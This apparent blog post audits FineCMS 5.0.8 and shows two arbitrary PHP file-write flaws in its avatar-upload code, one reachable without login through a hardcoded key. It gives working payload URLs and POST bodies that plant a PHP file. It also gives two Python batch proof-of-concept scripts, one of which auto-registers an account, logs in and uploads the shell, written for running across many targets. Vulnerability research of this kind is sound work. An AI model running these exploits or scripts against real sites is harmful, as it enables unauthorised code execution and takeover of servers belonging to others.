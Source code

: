 ## 0x01 前言

就要被**，美其名曰：比我的web安全研究和代码审计更有前途。当然是选择原谅他啦。
先审计finecms去去火，找到六处漏洞，先放两处容易被发现的getshell和对应的两个python脚本

## 0x02 getshell

**第一处getshell**：在C:/phpStudy/WWW/finecms/dayrui/controllers/Api.php中的data2函数，大约在第115行，有问题的代码大约在178行

```
public function data2() {

    $data = array();

    // 安全码认证
    $auth = $this->input->get('auth', true);
    if ($auth != md5(SYS_KEY)) {
        // 授权认证码不正确
        $data = array('msg' => '授权认证码不正确', 'code' => 0);
    } else {
        // 解析数据
        $cache = '';
        $param = $this->input->get('param');
        if (isset($param['cache']) && $param['cache']) {
            $cache = md5(dr_array2string($param));
            $data = $this->get_cache_data($cache);
        }
        if (!$data) {

            if ($param == 'login') {
                // 登录认证
                $code = $this->member_model->login(
                    $this->input->get('username'),
                    $this->input->get('password'),
                    0, 1);
                if (is_array($code)) {
                    $data = array(
                        'msg' => 'ok',
                        'code' => 1,
                        'return' => $this->member_model->get_member($code['uid'])
                    );
                } elseif ($code == -1) {
                    $data = array('msg' => fc_lang('会员不存在'), 'code' => 0);
                } elseif ($code == -2) {
                    $data = array('msg' => fc_lang('密码不正确'), 'code' => 0);
                } elseif ($code == -3) {
                    $data = array('msg' => fc_lang('Ucenter注册失败'), 'code' => 0);
                } elseif ($code == -4) {
                    $data = array('msg' => fc_lang('Ucenter：会员名称不合法'), 'code' => 0);
                }
            } elseif ($param == 'update_avatar') {
                // 更新头像
                $uid = (int)$_REQUEST['uid'];
                $file = $_REQUEST['file'];
                //
                // 创建图片存储文件夹
                $dir = SYS_UPLOAD_PATH.'/member/'.$uid.'/';
                @dr_dir_delete($dir);
                if (!is_dir($dir)) {
                    dr_mkdirs($dir);
                }
                $file = str_replace(' ', '+', $file);
                if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                    $new_file = $dir.'0x0.'.$result[2];
                    if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                        $data = array(
                            'msg' => '目录权限不足或磁盘已满',
                            'code' => 0
                        );
                    }
```

其中，首先

```
$file = $_REQUEST['file'];
```

获取$file变量

```
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                        $new_file = $dir.'0x0.'.$result[2];
                        if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                            $data = array(
                                'msg' => '目录权限不足或磁盘已满',
                                'code' => 0
                            );
```

然后用preg_match函数进行正则匹配，因为$file变量可控，所以$result也是可控的，从而$new_file也是可控的，可以构造为php文件，然后

```
file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file))))
```

对$result[1]进行base64解码，然后写入$new_file文件中。显然，是可以任意写文件进行getshell的。所以，我们要让程序能够运行到这些代码，不能在之前就退出了。要经过

```
 $auth = $this->input->get('auth');
 if ($auth != md5(SYS_KEY))
```

SYS_KEY被系统硬编码为24b16fede9a67c9251d3e7c7161c83ac，在C:phpStudyWWWconfigsystem.php中有定义。直接md5加密一次即可绕过

所以最终的payload为

```
http://localhost:88/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+
```

无需登录，直接getshell,路径为http://localhost:88/uploadfile/member/0/0x0.php
![QQ图片20170610192323.png](img/9.png)

**第二处getshell**：在文件C:/phpStudy/WWW/finecms/dayrui/controllers/member/Account.php中的upload函数

```php
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                $new_file = $dir.'0x0.'.$result[2];
                if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                    exit(dr_json(0, '目录权限不足或磁盘已满'));
                
```

注册会员，登录

```
访问：http://localhost:88/index.php?s=member&c=account&m=upload
POST：tx=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+
```

![QQ图片20170610184543.png](img/10.png)
![QQ图片20170610185647.png](img/12.png)

## 0x03 Python批量poc脚本

pocsuite和poc-T是两个成熟的poc框架，不过感觉核心代码是别人的，只写一些poc插件的话，就是为别人造轮子，所以抽了一些代码写了个自己的工具，可能连轻型框架都算不上，只够自己用的。
第一处getshell的python代码（因为是直接getshell，无需登录，所以很简单）：

```python
import sys
import requests
def poc(target):
    payload="/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+"
    url=target+payload
    shell=target+'/uploadfile/member/0/0x0.php'
    try:
        result=requests.get(url,timeout=3)
        verify=requests.get(shell,timeout=3)
        if verify.status_code==200 and 'code' in verify.text:
            return True
    except Exception,e:
        print e
```

第二处getshell的Python代码（需要自动化注册、登录、利用）：

```python
#Finecms version:5.0.8
#Author:404notfound

import random
import sys
import requests
def poc(url):
    username=random.randint(0,999999)
    seed = "1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    email = []
    for i in range(8):
        email.append(random.choice(seed))
    email = ''.join(email)
    #print email+"@"+email+".com"
    #print username
    
    #step 1 register
    #print "[+] register user"
    register_url=url+"/index.php?s=member&c=register&m=index"
    register_payload={"back":"","data[username]":username,"data[password]":"123456","data[password2]":"123456","data[email]":email+"@"+email+".com"}
    #step 2 login
    #print "[+] user login"
    login_url=url+"/index.php?s=member&c=login&m=index"
    login_payload={"back":"","data[username]":username,"data[password]":"123456","data[auto]":"1"}
    #step 3 attack
    #print "[+] loading payload"
    vul_url=url+"/index.php?s=member&c=account&m=upload"
    vul_payload={"tx":"data:image/php;base64,NDA0bm90Zm91bmQ8P3BocCBwaHBpbmZvKCk7Pz4="}
    try:
        s = requests.session()
        resu=s.post(register_url,data=register_payload)
        result=s.post(login_url,data=login_payload)
        result2=s.post(vul_url,data=vul_payload).content
        if "status" in result2:
            return True
        else:
            return False
    except Exception,e:
        pass
        #print e
    #print "[+] ALL DONE"
    #step 4 find shell path
       
#print poc("http://localhost")
```

主代码就不贴了，可以看我的GitHub：https://github.com/404notf0und
效果还不错：
![finecms.png](http://4o4notfound.org/usr/uploads/2017/06/4008852901.png)

